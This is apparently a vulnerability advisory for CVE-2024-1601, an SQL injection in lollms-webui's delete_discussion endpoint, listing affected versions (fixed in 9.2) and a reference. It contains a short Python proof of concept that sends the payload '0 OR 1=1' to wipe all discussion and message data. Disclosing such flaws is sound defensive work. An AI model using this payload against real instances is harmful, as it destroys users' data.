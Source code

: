 ```yaml
---
description: CVE-2024-1601, HIGH, SQL Injection in lollms-webui leads to denial of service
title: lollms-webui SQLi DoS
date_published: "2024-04-15"
last_updated: "2024-04-15"
xray_id: JFSA-2024-001028813
vul_id: CVE-2024-1601
cvss: 7.5
severity: high
discovered_by: Naveh Racovsky
type: vulnerability

---
```


## Summary

SQL Injection in lollms-webui leads to denial of service

## Component

[parisneo/lollms-webui](https://github.com/parisneo/lollms-webui)

## Affected versions

(,9.1], Fixed in 9.2

## Description

An SQL injection condition exists in `delete_discussion()`, allowing a malicious actor to delete all discussions and message data from the application. This vulnerability can simply be exploited by sending a crafted HTTP POST request to the `/delete_discussion` which will call the vulnerable internal `delete_discussion()` function.

## PoC

```bash
// PoC.py
import requests

IP_ADDRESS = "aaa.bbb.ccc.ddd" #replace me
PORT = 9600

data = {
    "id": "0 OR 1=1",
    "client_id": 0
}
response = requests.post(f"http://{IP_ADDRESS}:{str(PORT)}/delete_discussion", json=data)
print(response.json())
```



## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

[Advisory](https://huntr.com/bounties/652a176e-6bd7-4161-8775-63a34ecc71d5)

